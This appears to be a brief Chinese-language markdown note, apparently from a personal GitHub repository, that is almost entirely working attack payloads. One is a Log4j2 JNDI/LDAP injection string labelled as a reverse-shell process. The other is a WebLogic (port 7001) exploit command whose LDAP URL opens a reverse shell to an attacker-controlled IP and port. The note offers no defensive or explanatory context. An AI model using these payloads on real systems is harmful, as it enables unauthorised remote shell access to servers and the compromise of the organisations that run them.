



## log4j2

反弹shell过程



用1.8



${jndi:ldap://192.168.202.51:1389/Basic/ReverseShell/192.168.202.51/23333}



## Weblogic

7001端口

```
./exploit -ip 10.3.4.79 -port 7001 -ldap ldap://192.168.192.31:1389/Basic/ReverseShell/192.168.192.31/15555
```

